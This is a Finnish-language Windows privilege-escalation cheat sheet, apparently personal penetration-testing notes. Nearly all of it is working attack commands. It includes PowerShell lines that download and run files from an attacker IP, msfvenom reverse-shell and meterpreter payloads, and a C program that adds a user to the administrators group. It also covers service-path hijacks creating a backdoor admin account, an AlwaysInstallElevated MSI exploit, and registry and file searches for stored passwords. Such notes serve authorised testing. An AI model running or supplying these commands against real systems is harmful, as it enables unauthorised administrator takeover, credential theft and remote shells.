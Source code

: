 ## Windows privesc ##

* Version bittisyys: 
  - wmic os get osarchitecture

* Etsi tiedostot joissa SUID
  - find / -perm +4000 -user root -type f -print
* Sama mutta SGID
  - find / -perm +2000 -user root -type f -print

* Filun lataus powershellillä: 
 - powershell IEX(New-Object Net.WebClient).DownloadString('http://<IP>:80/accesschk.exe')
 - powershell Invoke-WebRequest -Uri "http://<IP>:80/accesschk.exe" -OutFile "C:\Users\Matti\AppData\Local\Temp\accesschk.exe"
 - Vanhemmalla versiolla (testattu 2:lla): 
   * powershell (New-Object System.Net.WebClient).DownloadFile('http://<IP>:80/ms16-014.exe', 'C:\wamp\www\ms16-014.exe') 

* Permissioiden tarkistus: Integrity Control Access Control Lists (icacls)
 - icacls <polku>

* Windowsiin voi tehdä käyttäjän komennolla: net user <käyttäjänimi> <salasana> /add
* Lisääminen grouppiin: net localgroup "Groupin nimi" <käyttäjänimi> /add
* Servicet näkee komennolla: services.msc

* Ajastetut toiminnot:
 - schtasks /query /fo LIST /v

* Patchaysten tila: 
 - wmic qfe get Caption,Description,HotFixID,InstalledOn
 - Katso privesc exploittien, kuten KiTrap0D (KB979682), MS11-011 (KB2393802), MS10-059 (KB982799), MS10-021 (KB979683), MS11-080 (KB2592799), KB patch numerot. 
 - Tietyn KB Patchin haku: wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

* Unquoted Service Paths:
 - wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
 - Automaattinen exploittaus metasploitilla: exploit/windows/local/trusted_service_path

* Koodi, jolla voi tehdä uuden käyttäjän:
	root@kali:~# cat useradd.c
	#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
	int main ()
	{
	 int i;
	 i=system ("net localgroup administrators low /add");
	 return 0;
	}
	root@kali:~# i686-w64-mingw32-gcc -o exploitti.exe useradd.c
* Voi tehdä myös Msfvenomilla: windows/adduser, tai: msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=<IP> LPORT=443 -f exe -o <unquoted_file>.exe

* Haavoittuvien serviceiden haku AccessChk:lla
 - accesschk.exe -uwcqv "Authenticated Users" * /accepteula
 - Konffien katsominen: sc qc <palvelu>
 - Käyttäjän lisäys muokaamalla tämä binpathia: sc config <palvelu> binpath= "net user rottenadmin P@ssword123! /add"
 - Sitten sc stop <palvelu> ja sc start <palvelu> + sc config PFNET binpath= "net localgroup Administrators rottenadmin /add" ja vielä kerran stop ja start
 - Sama Metasploitilla: exploit/windows/local/service_permissions

* Always install elevated:
 - reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 - reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   * Jos näiden arvo on 1, exploittaa:
    - msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi
    - msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\rotten.msi
   * Metasploitilla: exploit/windows/local/always_install_elevated

* Unattend ja muut filut:
  - Unattend.xml
  - sysprep.xml ja sysprep.inf
  - Salasanat kohdassa: <UserAccounts>
  - Metasploitilla: post/windows/gather/enum_unattend

* Domain controllerissa GPP-filu
  - Löytyy sysvol-kansiosta nimellä Groups.xml -> täältä cpassword-field
  - Avain passujen decryptaamiseen: https://msdn.microsoft.com/en-us/library/Cc422924.aspx
  - Skripti: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
  - Metasploitilla: post/windows/gather/credentials/gpp
  - Passujen hyödyntäminen psexecillä

* Interaktiivinen powershell shelli Metasploitilla
  - windows/local/payload_inject, tälle payload: windows/powershell_reverse_tcp

* Passut ja muut kivat:
  - dir /s *pass* == *cred* == *vnc* == *.config*
  - findstr /si password *.xml *.ini *.txt
  - reg query HKLM /f password /t REG_SZ /s
  - reg query HKCU /f password /t REG_SZ /s

* DLL hijacking
  - DLL search order on 32-bit systems:
    1 - The directory from which the application loaded
    2 - 32-bit System directory (C:\Windows\System32)
    3 - 16-bit System directory (C:\Windows\System)
    4 - Windows directory (C:\Windows)
    5 - The current working directory (CWD)
    6 - Directories in the PATH environment variable (system then user)
  - echo %path%
  - msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' D > /root/Desktop/evil.dll

* Find all weak folder permissions per drive.
  - accesschk.exe -uwdqs Users c:\
  - accesschk.exe -uwdqs "Authenticated Users" c:\

* Find all weak file permissions per drive.
  - accesschk.exe -uwqs Users c:\*.*
  - accesschk.exe -uwqs "Authenticated Users" c:\*.*


